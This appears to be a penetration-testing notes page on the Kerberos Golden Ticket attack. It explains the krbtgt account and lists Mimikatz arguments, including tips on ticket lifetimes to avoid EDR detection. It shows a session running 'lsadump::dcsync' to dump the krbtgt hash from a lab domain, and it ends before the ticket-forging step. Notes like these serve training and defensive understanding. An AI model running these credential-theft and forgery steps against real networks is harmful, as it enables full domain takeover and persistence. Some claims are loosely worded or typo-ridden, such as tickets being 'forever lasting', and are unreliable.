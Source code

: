 # Golden Ticket

## Description

The `Kerberos Golden Ticket` is an attack in which threat agents can create/generate tickets for any user in the Domain, therefore effectively acting as a Domain Controller.

**krbtgt account**:

* Special account **created by default** when a domain is made.
* **Disabled**, **cannot be deleted**, renamed, or enabled.
* Used by the **Domain Controller's KDC service** to sign Kerberos tickets.

**krbtgt password hash**:

* Used to **sign all Kerberos tickets** (TGTs – Ticket Granting Tickets).
* Most **trusted object** in the domain.
* If an attacker gets this **hash**, they can:
  * Create **fake TGTs**.
  * Give **any privileges** to these tickets (even admin).
  * Domain **trusts** them because they’re signed with the correct key.
* The golden ticket attack can move from child domain to parent domain in the sam forest
* It enables lon get persistance in the network
* The tickets are forever lasting so eve nif the attacker is eradicated, he can come back easy

***

## Attack

We perform the attack with **Mimikatz** and the following arguments:

* `/domain`: The domain's name.
* `/sid`: The domain's SID value.
* `/rc4`: The password's hash of `krbtgt`.
* `/user`: The username for which `Mimikatz` will issue the ticket (Windows 2019 blocks tickets if they are for inexistent users.)
* `/id`: Relative ID (last part of `SID`) for the user for whom `Mimikatz` will issue the ticket.

Additionally, advanced threat agents mostly will specify values for the `/renewmax` and `/endin` arguments, as otherwise, `Mimikatz` will generate the ticket(s) with a lifetime of 10 years, making it very easy to detect by EDRs:

* `/renewmax`: The maximum number of days the ticket can be renewed.
* `/endin`: End-of-life for the ticket.

<mark style="color:yellow;">1.</mark>\
We need to obtain the password hash for krbtgt and the SID value of the domain.\
We do this like shown in the DCSync attack. And look for the NTLM hash.

### Get passwrod hash

```cmd-session
C:\WINDOWS\system32>cd ../../../

C:\>cd Mimikatz

C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt
```